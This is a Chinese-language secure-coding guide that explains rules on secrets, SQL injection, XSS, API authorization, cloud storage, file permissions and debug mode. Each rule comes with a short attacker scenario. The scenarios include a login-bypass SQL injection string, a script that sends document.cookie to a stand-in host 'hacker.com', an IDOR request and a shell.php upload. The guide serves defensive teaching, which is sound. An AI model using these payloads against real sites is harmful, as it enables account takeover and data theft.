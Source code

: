 # Vibe Coding 安全守則詳解：為什麼我們如此堅持？

這份文件解釋了《安全守則》中每一條規則的重要性。理解這些，能幫助你從「駭客的視角」看待自己的程式碼，防患於未然。

---

## ⭐ 金科玉律 (The Golden Rules)

### 【絕不寫死秘密】 & 【使用環境變數】 & 【忽略秘密檔案】

**為什麼重要？**

這三條是數位世界的最高生存法則。你的程式碼（尤其是在使用 Git 時）會在多個地方被複製、分享、儲存。將密碼、API 金鑰等「秘密」直接寫在程式碼裡，就像是把保險箱的密碼刺青在額頭上，任何看到你的人（看到程式碼的人）都能輕易地打開你的保險箱。`.env` 檔案是你的私人保險箱，`.gitignore` 則是確保這個保險箱不會被意外打包送人的保全系統。

**駭客劇本 😈**
> 我最喜歡在 GitHub 上搜尋 `password`、`api_key` 或 `db_connect`。我找到了你的公開專案，在一個叫做 `config.js` 的檔案裡，我看到了這樣的程式碼：`const db_password = 'Password123!';`。太棒了，我甚至不需要攻擊你的網站，我現在就可以直接嘗試用這個密碼登入你的資料庫了。

**災難後果 💥**

**服務完全被接管。** 駭客可以偷走、竄改、刪除你所有的用戶資料，或是利用你的付費 API 服務（例如：發送大量郵件、使用地圖服務）來進行非法活動，而帳單全部由你支付。

---

## 📥 處理使用者輸入 (Handling User Input)

### 【防止注入攻擊 (SQL Injection)】

**為什麼重要？**

想像一下，資料庫是一個只聽得懂 SQL 語言的機器人。如果你把使用者的話（輸入）直接跟你的命令拼接在一起，使用者就有機會說出他們自己的「命令」。參數化查詢則是告訴機器人：「聽著，接下來這段話**只是資料**，無論內容是什麼，都不要當作命令來執行。」

**駭客劇本 😈**
> 我在你網站的登入框裡，用戶名稱我輸入了 `' OR '1'='1' --`。我猜你們的 SQL 查詢是這樣寫的：`"SELECT * FROM users WHERE username = '" + userInput + "';" `。我的輸入把它變成了 `SELECT * FROM users WHERE username = '' OR '1'='1' --';`。`'1'='1'` 永遠是真的，所以我繞過了密碼驗證，成功登入了第一個用戶（通常是管理員）的帳號。

**災難後果 💥**

攻擊者可以繞過登入、竊取整個資料庫的資料（用戶列表、密碼 hash），甚至刪除資料庫。

### 【防止跨站腳本攻擊 (XSS)】

**為什麼重要？**

如果你的網站像一面鏡子，直接反射出使用者輸入的內容，那使用者就可以在內容中夾帶惡意的 JavaScript 腳本。當其他用戶瀏覽到這段內容時，這個惡意腳本就會在他們的瀏覽器上執行，竊取他們的資訊。HTML 實體編碼就是把惡意腳本中的特殊字元（如 `<`、`>`）轉變成無害的純文字，讓它無法被執行。

**駭客劇本 😈**
> 我在你的文章評論區留了一段言：`<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`。這段文字被原封不動地存進資料庫。現在，任何讀取這篇評論的用戶，他們的瀏覽器都會自動執行這段腳本，將他們的登入 cookie 發送到我的伺服器。我拿到了 cookie，就能冒充他們的身分登入網站。

**災難後果 💥**

大規模的用戶帳號被盜用、個資外洩、網站被植入釣魚內容或挖礦腳本。

---

## 🔐 權限與認證 (Permissions & Authentication)

### 【API 端點保護】

**為什麼重要？**

前端介面（UI）可以隱藏按鈕，但駭客從不依賴介面。他們會直接用工具（如 Postman、curl）呼叫你後端的 API。你必須假設每個 API 端點都會被直接攻擊，因此每個端點都必須是獨立的守衛，自己檢查來訪者的身分和權限。

**駭客劇本 😈**
> 我發現要修改個人資料，前端會發送一個請求到 `/api/user/update`。雖然我看不到其他人的修改按鈕，但我猜這個 API 可能是透過 `userId` 來區分用戶的。我試著發送一個請求到 `/api/user/update?userId=1`（管理員的 ID），並附上我想修改的資料。天啊，伺服器居然沒有檢查是不是我本人發出的請求，就成功把管理員的 email 改掉了！

**災難後果 💥**

普通用戶可以竄改其他用戶甚至管理員的資料，或是執行他們不該有的權限，造成系統混亂。

---

## ☁️ 外部服務與雲端整合 (External Services & Cloud Integration)

### 【外部資料庫防火牆】 & 【雲端儲存私有化】

**為什麼重要？**

你的雲端資料庫和儲存空間，就像是你在雲上的私人倉庫。你絕不會把倉庫的大門敞開，讓全世界的人都能進來。防火牆和私有化設定，就是為你的倉庫建立一道堅固的圍牆和上鎖的大門，只允許你的應用程式（指定的 IP 位址）這輛「授權貨車」進出。

**駭客劇本 😈**
> 我用工具掃描了你們公司的 IP 段，發現一個 AWS S3 儲存桶是「公開」的。我點進去一看，裡面全是你們用戶上傳的身份證照片和公司合約的掃描檔，所有檔案列表一覽無遺，我全部都下載了。

**災難後果 💥**

所有儲存的敏感資料（用戶個資、公司機密文件）被一次性拖走，造成毀滅性的資料外洩事件。

---

## ⚙️ 檔案與伺服器設定 (Files & Server Config)

### 【絕不用 777】

**為什麼重要？**

權限 `777` 的意思是「讀、寫、執行」權限對「擁有者、群組、其他人」全部開放。這就像是你家大門沒上鎖，而且還貼了張紙條寫著「歡迎任何人進來居住、塗鴉、開派對」。如果駭客能上傳一個檔案，`777` 權限就等於給了他執行這個檔案的權力。

**駭客劇本 😈**
> 我發現你們網站的圖片上傳功能有一個小漏洞，沒有嚴格限制我上傳的檔案類型。我把一個叫 `shell.php` 的惡意後門程式，偽裝成 `image.jpg.php` 上傳了。因為你們的上傳目錄權限是 `777`，伺服器允許我「執行」這個檔案。我現在只要訪問 `yoursite.com/uploads/shell.php`，就能在你們的伺服器上為所欲為了。

**災難後果 💥**

伺服器被完全攻陷。駭客可以竊取所有程式碼和資料、將你的伺服器變成發動網路攻擊的殭屍主機，或植入勒索病毒。

### 【關閉偵錯模式】

**為什麼重要？**

偵錯模式是開發時的好幫手，但在上線環境中，它就像一個喋喋不休的內鬼。當網站出錯時，它會把伺服器的內部路徑、資料庫查詢語句、設定變數等極度敏感的資訊，完整地顯示在錯誤頁面上，等於是給駭客提供了一份詳細的攻擊地圖。

**駭客劇本 😈**
> 我故意在你網站的搜尋框輸入一些特殊字元，讓程式出錯。網站立刻回傳了一個詳細的錯誤頁面，上面寫著 `Error in /var/www/html/app/models/User.php on line 52`，還附上了出錯的 SQL 查詢語句。我現在知道了你們的檔案結構、使用的程式框架，甚至是資料表的名稱。我的下一步攻擊將會精準得多。

**災難後果 💥**

洩漏大量內部系統資訊，大幅降低駭客的攻擊難度，讓他們能更快地找到真正的漏洞。